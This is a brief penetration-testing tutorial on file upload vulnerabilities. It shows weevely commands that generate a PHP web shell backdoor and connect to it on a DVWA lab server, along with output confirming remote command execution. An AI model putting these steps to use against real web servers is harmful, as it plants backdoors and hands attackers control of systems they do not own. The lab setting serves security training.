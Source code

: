 ### File Upload Vulnerabilities

* This type of vulnerabilty allows users to upload files such as php shells.

* Steps

1. First create a new php shell with weevely

```
root@kali:~# weevely generate pass ~/Documents/shelling.php
Generated backdoor with password 'pass' in '/root/Documents/shelling.php' of 1285 byte size.
```

* So here we first specifed we want the command weevely, generate to generate the web shell followed by a password followed by where we want to store the shell in.


2. Now we can interact with the php web shell 

```
root@kali:~# weevely http://10.0.2.5/dvwa/hackable/uploads/shelling.php pass
```

* Here i used weevely to connect to the php web shell by connecting to to where the php web shell was uploaded.
* After that i receive a web shell.

```
weevely> id
[-][channel] The remote script execution triggers an error 500, please verify script integrity and sent payload correctness
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@10.0.2.5:/var/www/dvwa/hackable/uploads $ 
```


